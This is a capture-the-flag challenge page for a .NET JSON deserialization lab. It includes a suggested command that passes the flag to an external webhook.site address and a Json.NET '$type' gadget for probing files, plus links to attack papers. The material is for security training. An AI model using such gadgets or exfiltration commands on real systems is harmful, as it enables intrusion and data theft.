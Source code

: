 ### Info:

Feedback is really important to keep our challenges improving!   
We might have an interesting challenge hidden for you all in this system.   

Flag is hidden inside the file /flag.txt on our system.   
There are multiple ways to extract it, however, if you want feedback system to send you your flag at your desired address.   
Trying executing `flag.sh` with first argument as your address   
E.g `./flag.sh https://webhook.site/You-Know-Where-To-Look-For-Me   `

Hope you have loads of fun!   
P.S: Hints will always be given at `CTFs` to those who look for it.

### Url:

<script>
$("#docker").load("/docker/dotnet-deserialization/http");
</script>
<div id="docker"></div>


### Learning materials:

   * https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf   
   * https://www.alphabot.com/security/blog/2017/net/How-to-configure-Json.NET-to-create-a-vulnerable-web-API.html (interesting)
   * Simple gadget like this could be pretty handy in enumerating files   
      “Object": {    
			   "$type": "System.IO.FileInfo, System.IO.FileSystem”,   
			   "fileName": "rce-test.txt”,   
			   "IsReadOnly": true   
        }   


